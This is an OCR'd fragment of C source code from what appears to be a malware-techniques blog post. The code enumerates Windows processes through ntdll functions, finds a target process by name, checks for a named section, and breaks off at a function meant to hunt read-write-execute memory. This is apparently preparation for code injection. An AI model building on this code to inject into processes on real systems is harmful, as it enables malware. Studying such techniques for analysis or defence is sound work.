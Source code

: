 ```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char *procname) {
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = 
  (fNtGetNextProcess_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = 
  (fNtOpenSection_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      // check for "\Sessions\1\BaseNamedObjects\UrlZonesSM_test1" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;

      WCHAR objPath[] = L"\\Sessions\\1\\BaseNamedObjects\\UrlZonesSM_test1";
      sName.Buffer = (PWSTR)objPath;
      sName.Length = wcslen(objPath) * sizeof(WCHAR);
      sName.MaximumLength = sName.Length + sizeof(WCHAR);

      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }
  return current;
}

int findRWX(HANDLE h) {

```
